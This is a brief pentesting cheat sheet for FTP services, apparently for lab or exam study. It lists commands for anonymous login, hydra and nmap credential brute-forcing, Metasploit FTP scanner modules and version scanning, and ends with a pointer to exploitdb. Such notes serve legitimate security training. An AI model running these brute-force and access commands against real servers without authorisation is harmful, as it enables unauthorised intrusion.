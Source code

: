 # FTP
## anonymous login
ftp 192.1.56.3  
--- Name (192.97.159.3:root): anonymous  
--- Password: (blank)[ENTER]  
nmap -Pn -v 192.97.159.3 --script=ftp-anon  
msfconsole> auxiliary/scanner/ftp/anonymous
## bruteforcing usernames and passwords
hydra -L users.txt -P passwords.txt ftp://192.1.56.3  
nmap -Pn -v 192.1.56.3 --script=ftp-brute --script-args=userdb=users.txt,passdb=passwords.txt  
msfconsole> auxiliary/scanner/ftp/ftp_login  
## vulnerable software
nmap -Pn -v 192.1.56.3 -p21 -sT -sV  
exploitdb

